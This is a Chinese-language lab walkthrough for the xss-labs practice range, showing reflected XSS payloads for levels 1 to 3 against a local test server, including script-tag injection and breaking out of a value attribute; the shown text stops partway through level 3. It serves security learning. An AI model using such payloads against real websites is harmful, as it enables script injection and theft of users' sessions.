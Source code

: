 # xss-labs通关记录
[@长安城第一美](undefined/arnie-rytcr)

<font style="color:rgb(51, 51, 51);">在线靶场：</font>[<font style="color:rgb(51, 51, 51);">XSS平台|CTF欢迎来到XSS挑战|XSS之旅|XSS测试 (ctf8.com)</font>](http://test.ctf8.com/)

<font style="color:rgb(51, 51, 51);">下载地址：</font>[<font style="color:rgb(51, 51, 51);">https://github.com/do0dl3/xss-labs</font>](https://github.com/do0dl3/xss-labs)

<font style="color:rgb(51, 51, 51);">我是下载在虚拟机下用小皮启动，这样也方便看源码学习，建议是下载，因为这个在线我做的几次里面有时候会页面丢失</font>

<font style="color:rgb(51, 51, 51);">本文主要讲通关方法，至于对应方法绕过对应的函数的介绍就不多赘述了，感兴趣的可以打开源码就可以了解对应函数的作用</font>

# <font style="color:rgb(51, 51, 51);">level1</font>
<font style="color:rgb(51, 51, 51);">在URL发现有参数可以提交</font>

 http://192.168.12.139/xss-labs-master/level1.php?name=test

<font style="color:rgb(51, 51, 51);">payload</font>

```javascript
 http://192.168.12.139/xss-labs-master/level1.php?name=<script>alert('document.cookie')</script>
```

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728473771474-350d3fab-c9a4-4a4e-bfd2-a03df0597e8c.png)

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728473911115-cffdbca9-8070-4c35-af0d-b40f13d96159.png)

**本关小结**： JS弹窗函数<font style="color:#fe2c24;">alert()</font>

# <font style="color:rgb(51, 51, 51);">level2</font>
<font style="color:rgb(51, 51, 51);">先随便输入值，查看代码，发现要闭合闭合value参数</font>

<font style="color:rgb(51, 51, 51);">payload</font>

```javascript
"><script>alert('document.cookie')</script>
```

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728474037002-e199ecd5-bd95-4187-9996-3b087cd49058.png)

**本关小结：闭合****<font style="color:rgb(51, 51, 51);">value</font>****绕过   **

# <font style="color:rgb(51, 51, 51);">level3</font>
<font style="color:rgb(51, 51, 51);">我们先随便输入，然后尝试闭合value</font>

```javascript
"><script>alert('document.cookie')</script>
```

<font style="color:rgb(51, 51, 51);">单引号双引号和><被转义</font>

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728474063989-9e8967e0-e110-4478-97a9-a515a1f565cc.png)
